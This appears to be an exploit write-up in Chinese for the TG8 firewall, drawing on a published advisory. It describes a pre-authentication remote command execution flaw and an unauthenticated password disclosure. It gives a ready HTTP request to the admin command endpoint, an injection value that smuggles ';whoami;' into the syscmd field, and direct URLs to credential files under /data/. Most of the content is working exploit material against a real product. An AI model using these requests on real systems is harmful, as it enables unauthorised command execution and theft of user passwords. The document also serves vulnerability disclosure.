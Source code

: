 # TG8 防火墙中的 RCE 和密码泄漏

TG8防火墙中存在两个漏洞，远程用户可以以用户身份执行命令而无需通过设备进行身份验证。第二个漏洞允许在不经过身份验证的情况下公开现有用户的密码。

rce poc：

```
POST http://<server>/admin/runphpcmd.php HTTP/1.1
Host: Server
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Connection: keep-alive


syscmd=sudo+%2Fhome%2FTG8%2Fv3%2Fsyscmd%2Fcheck_gui_login.sh+<Payload>++local
```

whoami：

```
syscmd=sudo+/home/TG8/v3/syscmd/check_gui_login.sh+;whoami;++local

```

密码泄漏：

/data/目录下储存了登录过用户的凭据，无需登录即可访问此目录下的文件。

例如：

* http://<server>/data/w-341.tg
* http://<server>/data/w-342.tg
* http://<server>/data/r-341.tg
* http://<server>/data/r-342.tg

ref：

https://ssd-disclosure.com/ssd-advisory-tg8-firewall-preauth-rce-and-password-disclosure/